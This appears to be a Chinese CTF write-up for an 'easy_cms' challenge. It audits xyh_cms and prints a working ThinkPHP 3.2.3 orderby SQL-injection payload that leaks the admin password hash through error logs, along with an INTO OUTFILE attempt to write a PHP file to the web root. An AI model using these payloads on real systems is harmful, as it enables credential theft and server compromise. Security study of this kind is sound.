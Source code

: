 ![](/assets/images/move/1573403667936.png)

### easy_cms

下载`xyh_cms`源代码到本地审计，在 `\App\Api\Controller\LtController.class.php` 中发现 ThinkPHP 3.2.3 的 SQLi. `$order_by` 参数可控:

```php
$order_by  = I('orderby', 'id DESC');
[...]
$_list = D2('ArcView', 'search_all')->nofield($nofield)->where($where)->order($order_by)->limit($limit)->select();
```

注入路由: `/index.php?s=Api/Lt/alist.html`, POST： 

```php
orderby[title]=and(updatexml(1,concat(0x7e,(select/**/password/**/from/**/xyh_admin/**/where/**/id=1)),1))#
```

回显位置：`/App/Runtime/Logs/Api/19_11_11.log`.

```php
[ 2019-11-11T10:33:55+08:00 ] 10.12.0.34 /index.php?s=Api/Lt/alist.html
ERR: SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~2f744817428b953e97ca427d116b18b'
```

注出管理员 `CAs9HnXcQ` Hash 和 salt 值 `Wk3zDr` 后尝试爆破弱口令破解无果，尝试直接写入 shell:

```sql
# <?php phpinfo(); ?>
orderby=id/**/into/**/outfile/**/%27/var/www/html/shell.php%27/**/lines/**/starting/**/by/**/0x3c3f70687020706870696e666f2829203f3e/**/%23
```

由于 secure-file-priv 限制写入失败，尝试漫游数据库，共 4 个库，其中 3 个库为 mysql 自带库，当前库本地测试有 39 个表，注入到题目环境发现有 40 个表，则多出来的一个表很可能为 flag 表。

```sql
select table_name from information_schema.tables where table_name like 'f%' and table_schemata=database()
```
